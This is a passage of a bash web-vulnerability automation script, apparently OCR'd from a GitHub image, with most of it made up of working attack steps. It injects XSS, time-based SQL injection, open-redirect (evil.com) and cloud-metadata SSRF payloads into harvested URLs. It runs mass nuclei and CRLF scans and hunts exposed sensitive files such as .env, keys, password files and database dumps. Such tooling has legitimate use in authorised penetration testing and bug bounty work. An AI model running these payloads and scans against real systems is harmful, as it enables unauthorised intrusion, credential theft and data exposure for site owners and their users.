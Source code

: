     #@> FILTERING ENDPOINTS USING PATTERNS
    gf xss database/urls.txt | sed "s/'\|(\|)//g" | bhedak "FUZZ" 2> /dev/null | anew -q database/.gf/xss.list
    gf lfi database/urls.txt | sed "s/'\|(\|)//g" | bhedak "FUZZ" 2> /dev/null | anew -q database/.gf/lfi.list
    gf rce database/urls.txt | sed "s/'\|(\|)//g" | bhedak "FUZZ" 2> /dev/null | anew -q database/.gf/rce.list
    gf ssrf database/urls.txt | sed "s/'\|(\|)//g" | bhedak "http://169.254.169.254/latest/meta-data/hostname" 2> /dev/null | anew -q database/.gf/ssrf.list
    gf ssti database/urls.txt | sed "s/'\|(\|)//g" | bhedak "FUZZ" 2> /dev/null | anew -q database/.gf/ssti.list
    gf sqli database/urls.txt | sed "s/'\|(\|)//g" | bhedak "(select(0)from(select(sleep(5)))v)" 2> /dev/null | anew -q database/.gf/sqli.list
    gf redirect database/urls.txt | sed "s/'\|(\|)//g" | bhedak "http://www.evil.com/" 2> /dev/null | anew -q database/.gf/redirect.list

    xargs -a database/.gf/xss.list -P 30 -I % bash -c "echo % | kxss" 2> /dev/null | grep "< >\|\"" | awk '{print $2}' | anew -q .tmp/xssp.list
    cat .tmp/xssp.list 2> /dev/null | bhedak "\">/><svg/onload=confirm(document.domain)>" 2> /dev/null | anew -q .tmp/xss.txt
}

#@> NUCLEI SCAN
NUCL_SCAN(){
    echo -e "${BK}        ${RT}" | tr -d '\n' | pv -qL 6; echo -e " STARTING NUCLEI VULNERABILITY SCANNING ON ${BK}$DM${RT} (${YW}it may take time${RT})"
    nuclei -update-templates 2> /dev/null &> /dev/null
    xargs -a database/lives.txt -P 50 -I % bash -c "nuclei -target % -t ~/nuclei-templates/ -nc -s info -c 10 -silent" 2> /dev/null | anew -q vulns/nuclei.txt
    xargs -a database/lives.txt -P 50 -I % bash -c "nuclei -target % -t ~/nuclei-templates/ -nc -s low -c 10 -silent" 2> /dev/null | anew vulns/nuclei.txt | notify -silent &> /dev/null
    xargs -a database/lives.txt -P 50 -I % bash -c "nuclei -target % -t ~/nuclei-templates/ -nc -s medium -c 10 -silent" 2> /dev/null | anew vulns/nuclei.txt | notify -silent &> /dev/null
    xargs -a database/lives.txt -P 50 -I % bash -c "nuclei -target % -t ~/nuclei-templates/ -nc -s high -c 10 -silent" 2> /dev/null | anew vulns/nuclei.txt | notify -silent &> /dev/null
    xargs -a database/lives.txt -P 50 -I % bash -c "nuclei -target % -t ~/nuclei-templates/ -nc -s critical -c 10 -silent" 2> /dev/null | anew vulns/nuclei.txt | notify -silent &> /dev/null
    [ "$JO" == "False" ] || cat vulns/nuclei.txt | python3 -c "import sys; import json; print (json.dumps({'nuclei_info':list(sys.stdin)}))" | sed 's/\\n//g' | tee .json/nuclei.json &> /dev/null
    [ "$SL" == "False" ] && cat vulns/nuclei.txt
}

#@> VULNERABILITY SCANNING
VULN_SCAN(){
    echo -e "${BK}        ${RT}" | tr -d '\n' | pv -qL 6; echo -e " STARTING INJECTION VULNERABILITY SCANNING ON ${BK}$DM${RT} (${YW}it may take time${RT})"

    crlfuzz -l database/lives.txt -c 50 -s | anew vulns/crlf.txt | notify -silent &> /dev/null
    [ "$SL" == "False" ] && cat vulns/crlf.txt 2> /dev/null
    [ "$JO" == "False" ] || cat vulns/crlf.txt 2> /dev/null | python3 -c "import sys; import json; print (json.dumps({'vuln_crlf':list(sys.stdin)}))" | sed 's/\\n//g' | tee .json/crlf.json &> /dev/null

    cat database/urls.txt | cut -d"?" -f1 | cut -d"=" -f1 | grep -iaE "([^.]+)\.zip$|([^.]+)\.zip\.[0-9]+$|([^.]+)\.zip[0-9]+$|([^.]+)\.zip[a-z][A-Z][0-9]+$|([^.]+)\.zip\.[a-z][A-Z][0-9]+$|([^.]+)\.rar$|([^.]+)\.tar$|([^.]+)\.tar\.gz$|([^.]+)\.tgz$|([^.]+)\.sql$|([^.]+)\.db$|([^.]+)\.sqlite$|([^.]+)\.pgsql\.txt$|([^.]+)\.mysql\.txt$|([^.]+)\.gz$|([^.]+)\.config$|([^.]+)\.log$|([^.]+)\.bak$|([^.]+)\.backup$|([^.]+)\.bkp$|([^.]+)\.crt$|([^.]+)\.dat$|([^.]+)\.eml$|([^.]+)\.java$|([^.]+)\.lst$|([^.]+)\.key$|([^.]+)\.passwd$|([^.]+)\.pl$|([^.]+)\.pwd$|([^.]+)\.mysql-connect$|([^.]+)\.jar$|([^.]+)\.cfg$|([^.]+)\.dir$|([^.]+)\.orig$|([^.]+)\.bz2$|([^.]+)\.old$|([^.]+)\.vbs$|([^.]+)\.img$|([^.]+)\.inf$|([^.]+)\.sh$|([^.]+)\.py$|([^.]+)\.vbproj$|([^.]+)\.mysql-pconnect$|([^.]+)\.war$|([^.]+)\.go$|([^.]+)\.psql$|([^.]+)\.sql\.gz$|([^.]+)\.vb$|([^.]+)\.webinfo$|([^.]+)\.jnlp$|([^.]+)\.cgi$|([^.]+)\.tmp$|([^.]+)\.ini$|([^.]+)\.webproj$|([^.]+)\.xsql$|([^.]+)\.raw$|([^.]+)\.inc$|([^.]+)\.lck$|([^.]+)\.nz$|([^.]+)\.rc$|([^.]+)\.html\.gz$|([^.]+)\.gz$|([^.]+)\.env$|([^.]+)\.yml$" | httpx -silent -follow-host-redirects | anew -q vulns/files.txt &> /dev/null
    [ "$JO" == "False" ] || cat vulns/files.txt 2> /dev/null | python3 -c "import sys; import json; print (json.dumps({'sensitive':list(sys.stdin)}))" | sed 's/\\n//g' | tee .json/files.json &> /dev/null